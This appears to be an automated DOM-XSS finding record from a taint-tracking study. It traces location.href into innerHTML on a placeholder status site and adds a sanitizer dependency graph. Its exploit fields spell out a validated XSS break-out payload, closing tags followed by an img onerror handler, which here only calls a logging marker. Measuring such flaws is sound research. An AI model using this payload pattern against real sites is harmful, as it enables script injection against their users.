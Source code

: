 // Finding: 9110f53a-b8d9-4045-8900-0a2ddcf36b57
// Finding.url: https://status.example416.com/##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('9efef928232c4115a4c88b8c2dd04359')><!--/*
// Finding.parentloc: https://status.example416.com/##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('9efef928232c4115a4c88b8c2dd04359')><!--/*
// Finding.domain: status.example416.com
// Finding.base_domain: example416.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 1
// Sanitizer.name: 
// Sanitizer.location: https://status.example416.com/assets/js/home.min.js?id=31ae233349a1b38eacc - <anonymous>:1:12
// Finding.begin: 9
// Finding.end: 180
// Finding.original_uuid: 0635ce15-f835-42c4-93d2-026491b71c5f
// Finding.TwentyFiveMillionFlowsId: 1539861135
// Finding.script: https://status.example416.com/assets/js/lib/jquery-3.3.1.min.js
// Finding.line: 2
// Exploit.uuid: 9efef928-232c-4115-a4c8-8b8c2dd04359
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: href
// Exploit.quote_type: "
// Exploit.tag: a
// Exploit.break_out: #"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 39
// Exploit.replace_begin_url: 40
// Exploit.replace_end_url: 40
// Exploit.replace_begin_param: 48
// Exploit.replace_end_param: 48
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -2023321588
// DepGraph.sanitizer_hash: -2023321588

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="str_replace_once"];
n2 [shape=box, label="RegExp: /\/$/"];
n3 [shape=box, label="Lit: "];
n4 [shape=box, label="Var: x"];
n5 [shape=box, label="Var: x"];
n6 [shape=doubleoctagon, label="Return: x"];
n4 -> n0;
n1 -> n2;
n1 -> n3;
n1 -> n4;
n5 -> n1;
n6 -> n5;
}